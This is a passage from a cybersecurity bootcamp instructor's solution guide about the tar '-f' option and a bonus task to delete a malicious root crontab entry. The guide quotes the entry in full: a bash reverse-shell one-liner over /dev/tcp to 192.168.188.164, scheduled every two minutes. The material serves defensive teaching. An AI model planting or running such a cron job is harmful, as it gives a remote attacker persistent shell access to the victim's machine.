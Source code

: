     **Solution**: The `-f` option lets you designate a `tar` file to either _create_ or _extract_ or _list_ from.

#### Bonus

Run the following command to edit the `root` user's crontab then scroll to the bottom and delete the malicious cron job.

- Run: `sudo crontab -e` to open the `root` `crontab`.

Explain that the following malicious cron job establishes a **reverse shell**, that would give a remote attacker access to their machine. Students do not need to know what **reverse shells** are for now, but will cover them more in depth in future lessons.

- The cron you wanted to remove was:

  `*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1`



---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
